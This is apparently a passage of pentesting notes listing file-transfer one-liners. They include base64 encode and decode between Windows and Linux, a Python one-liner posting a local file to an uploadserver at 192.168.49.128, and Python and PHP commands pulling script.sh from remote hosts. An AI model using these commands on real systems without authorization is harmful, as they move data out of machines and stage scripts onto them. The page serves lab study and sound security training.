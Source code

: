 ### b64

{% tabs %}
{% tab title="Windows to Linux" %}
```powershell
# encode file on Windows
[Convert]::ToBase64String((Get-Content -path "c:\temp\file1" -Encoding byte))
# copy the output and decode it on Linux
echo IyBDb3B5...YWxob3N0DQo= | base64 -d > file1
```
{% endtab %}

{% tab title="Linux to Windows" %}
{% code overflow="wrap" %}
```bash
# encode file (-w --> wrap, use 0 to disable line wrapping)
cat file1 | base64 -w 0;echo
# decode on PowerShell
[IO.File]::WriteAllBytes("c:\temp\file1", [Convert]::FromBase64String("LS0tL...0tLQo="))
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Linux

{% tabs %}
{% tab title="Python3 Upload" %}
{% code overflow="wrap" %}
```bash
# starting an uploadserver
python3 -m uploadserver 
# uploading a file
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("file1","rb")})'
```
{% endcode %}
{% endtab %}

{% tab title="Python Download" %}
{% code overflow="wrap" %}
```bash
# python2.7
python2.7 -c 'import urllib;urllib.urlretrieve ("https://script.sh", "script.sh")'
# python3
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://script.sh", "script.sh")'
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="PHP Download (1)" %}
{% code overflow="wrap" %}
```bash
php -r '$file = file_get_contents("https://10.10.10.10/script.sh"); file_put_contents("script.sh",$file);'
```
{% endcode %}
{% endtab %}
